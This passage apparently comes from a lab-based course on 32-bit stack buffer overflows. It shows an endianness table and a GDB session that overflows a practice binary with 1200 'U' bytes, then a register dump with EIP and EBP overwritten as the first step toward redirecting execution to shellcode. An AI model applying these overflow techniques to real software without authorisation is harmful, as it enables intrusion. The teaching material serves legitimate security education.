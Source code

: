 |**Memory Address**|**0xffff0000**|**0xffff0001**|**0xffff0002**|**0xffff0003**|
|:----------------:|:------------:|:------------:|:------------:|:------------:|
|Big-Endian|AA|BB|CC|DD|
|Little-Endian|DD|CC|BB|AA|

This is very important for us to enter our code in the right order later when we have to tell the CPU to which address it should point.

-----

## Exploit
### Take Control of EIP
One of the most important aspects of a stack-based buffer overflow is to get the `instruction pointer` (`EIP`) under control, so we can tell it to which address it should jump. This will make the `EIP` point to the address where our `shellcode` starts and causes the CPU to execute it.

We can execute commands in GDB using Python, which serves us directly as input.

#### Segmentation Fault

Segmentation Fault

```shell-session
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

If we insert 1200 "`U`"s (hex "`55`") as input, we can see from the register information that we have overwritten the `EIP`. As far as we know, the `EIP` points to the next instruction to be executed.

Segmentation Fault

```shell-session
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```
